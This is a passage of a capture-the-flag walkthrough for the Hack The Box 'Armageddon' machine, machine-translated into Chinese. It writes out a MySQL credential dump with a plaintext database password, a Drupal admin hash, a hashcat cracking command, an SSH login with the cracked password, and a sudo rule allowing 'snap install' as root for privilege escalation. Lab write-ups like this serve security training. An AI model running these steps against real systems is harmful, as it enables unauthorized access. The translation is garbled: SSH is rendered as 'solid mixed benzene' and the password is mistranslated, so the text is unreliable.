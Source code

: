     bash-4.2$ mysql -e 'select * from users;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
    uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        language        picture init    data
    0                                               NULL    0       0       0       0       NULL            0               NULL
    1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu                     filtered_html   1606998756      1607077194      1607076276      1       Europe/London              0       admin@armageddon.eu     a:1:{s:7:"overlay";i:1;}
    

有一个哈希值用于布鲁斯特阿拉德明。

### 哈什卡特

该哈希与[示例哈希页面上](https://hashcat.net/wiki/doku.php?id=example_hashes) Drupal 7 的格式匹配。哈希猫将很快破解它，找到密码“嘘声”。`hashcat -m 7900 brucetherealadmin-hash /usr/share/wordlists/rockyou.txt`

### 固态混合苯

此密码适用于 SSH 访问：

    oxdf@parrot$ sshpass -p booboo ssh brucetherealadmin@10.10.10.233
    Warning: Permanently added '10.10.10.233' (ECDSA) to the list of known hosts.
    Last login: Fri Mar 19 08:01:19 2021 from 10.10.14.7
    [brucetherealadmin@armageddon ~]$ 
    

我可以抓住：`user.txt`

    [brucetherealadmin@armageddon ~]$ cat user.txt
    be57c4e6************************
    

## 外壳作为根

### 列举

布鲁瑟阿拉德明可以作为根运行快照安装：

    [brucetherealadmin@armageddon ~]$ sudo -l
    Matching Defaults entries for brucetherealadmin on armageddon:
        !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS
        LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
        XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin
    
    User brucetherealadmin may run the following commands on armageddon:
        (root) NOPASSWD: /usr/bin/snap install *
    

### 恶意快照包

谷歌搜索马利奥克斯快照包将我带到了2019年一篇关于[脏袜子](https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html)的文章。这不是这里的漏洞，但他们使用了一个恶意的快照包来利用脏袜子漏洞，我记得在HTB上玩弄脏袜子并写了[这篇文章](https://0xdf.gitlab.io/2019/02/13/playing-with-dirty-sock.html)。
